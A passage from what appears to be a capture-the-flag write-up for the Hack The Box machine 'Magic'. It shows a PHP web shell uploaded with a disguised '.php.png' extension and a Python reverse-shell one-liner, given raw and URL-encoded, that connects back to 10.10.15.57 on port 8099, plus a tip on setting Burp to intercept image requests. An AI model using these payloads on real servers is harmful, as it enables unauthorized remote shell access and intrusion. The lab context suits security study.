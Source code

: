 ![](../../.gitbook/assets/6-whoami.png)

`pwd` gets me `/var/www/Magic/images/uploads`

```text
http://10.10.10.185/images/uploads/htb1.php.png?test=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.57",8099));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 gets me...

```text
http://10.10.10.185/images/uploads/htb1.php.png?test=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.57%22,8099));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

sending a non-image file results in this message: `<script>alert('What are you trying to do there?')</script>`

to get burp to catch the request I had to go into the settings and disable the default filter that tells it not to intercept image requests

![](../../.gitbook/assets/4-disable-image-filter.png)
